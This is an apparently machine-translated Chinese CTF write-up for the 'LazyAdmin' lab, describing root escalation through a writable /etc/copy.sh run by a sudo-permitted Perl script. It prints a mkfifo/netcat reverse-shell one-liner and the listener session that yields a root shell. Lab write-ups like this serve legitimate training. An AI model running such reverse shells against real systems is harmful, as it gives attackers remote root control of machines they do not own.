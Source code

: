 好吧，这很好。但现在我需要想办法找到根。在尝试使用`mysql_login.txt`给出的凭证登录 MySQL 数据库之后，并且在由于严格的目录许可而无法将 Linux 智能枚举( [Blanco，n.d.](https://github.com/diego-treitos/linux-smart-enumeration) )加载到系统上之后，我决定转而专注于通过`backup.pl`脚本获得 root 访问权限。脚本的内容是:

```
**$ cat backup.pl**
#!/usr/bin/perlsystem(“sh”, “/etc/copy.sh”);
```

`/etc/copy.sh`剧本看起来很有趣。其内容是:

```
**$ cat /etc/copy.sh**
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

我知道我必须对这个脚本做些什么来获得 root 访问权限，但是我就是不能把我的手指放在它上面。因此，我尝试研究这些命令，并最终在其他文章中寻找“提示”我看到了[《穆兰多尔》(2020)](https://muirlandoracle.co.uk/2020/01/11/lazyadmin-write-up/) 写的一篇关于这个房间的文章，并决定复制他们的技巧:

```
[ ... target machine ... ]**$ echo “rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <target ip address> 5554 >/tmp/f” > /etc/copy.sh**
**$ sudo /usr/bin/perl /home/itguy/backup.pl**[ ... attackbox ... ]**└─$ nc -l -v -n -p 5554**
listening on [any] 5554 ...
connect to [<attackbox ip address>] from (UNKNOWN) [<target ip address>] 36926
/bin/sh: 0: can't access tty; job control turned off
**# id**
uid=0(root) gid=0(root) groups=0(root)
**# cat /root/root.txt # <- the root flag**
*[redacted]*
```

# 摘要

尽管有这个名字，但在这里设计旗帜需要的技巧比我准备好的要多一些。我需要[《穆兰道尔》(2020)](https://muirlandoracle.co.uk/2020/01/11/lazyadmin-write-up/) 的帮助，我需要更多的练习才能提升到精英黑客的地位。

同样值得注意的是，最近，[“ippsec”和“0x df”(2022)](https://www.hackthebox.com/blog/It-is-Okay-to-Use-Writeups)提出，像我这样的初学者，如果他们真的很难侵入模拟计算机或网络，可以参考文献。我想补充一点，在写文章之前，你应该先试着自己黑一个电脑系统。此外，如果你决定写自己的报告，一定要在该表扬的地方给予表扬；-)

## 吸取的教训

*   漏洞利用有时会中断，所以一定要有编码和调试背景来修复它们；-)
*   在没有`nano`、`vim`或其他基于终端的文本编辑器的情况下，使用`echo`覆盖具有`a+rwx`文件权限的文件。
*   人们不应该过分依赖 Linux 智能枚举( [Blanco，n.d.](https://github.com/diego-treitos/linux-smart-enumeration) )或 *Linux 漏洞利用建议者*([“mzet”，n.d.](https://github.com/mzet-/linux-exploit-suggester) )。因为有时目录权限可能非常严格。
*   不要低估“懒惰”的系统管理员，尽管他们很懒，但仍然很难工作。

# 引用的作品

布兰科博士。 *Linux 智能枚举:用于 pentesting 和 CTF 的 Linux 枚举工具，具有详细级别*。GitHub。2022 年 2 月 7 日检索自:[https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
